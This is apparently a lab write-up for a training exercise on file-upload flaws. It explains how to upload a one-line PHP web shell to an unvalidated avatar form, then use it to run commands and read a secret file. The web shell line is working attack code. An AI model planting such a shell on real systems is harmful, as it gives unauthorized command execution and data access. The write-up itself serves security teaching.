 # Lab: Remote code execution via web shell upload

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

# Solution
When using the provided credentials we can see a form for uploading a avatar for the account.  
![](Lab_1_First_Login.png)


We start by uploading an image to see how the request and what the proper functionality looks like.  
![Only headers and beginning of body due to the size of the request](Pasted%20image%2020250416100939.png)


And we can see that the name of the uploaded file is kept and we can access the file with the path seen in the URL field of the browser (```/files/avatars```).  
![](Pasted%20image%2020250416101450.png)


Let's see if how we can upload a PHP script to solve the lab. We start by creating a PHP file containing this one line: ```<?php echo system($_GET['command']); ?>```
And we seem to be successful.  
![](Lab_1_PHP_script_uploaded.png)


And we have a working webshell where we can execute system commands (in this case "id"):  
![](Lab_1_Testing_command.png)


Using the cat command we can get the content of the file requested in the lab instructions.  
![](Lab_1_Getting_secret.png)


![](PortSwigger/Server-Side_Vulnerabilities/File_Upload_Vulnerabilities/img/Lab_1_Solved.png)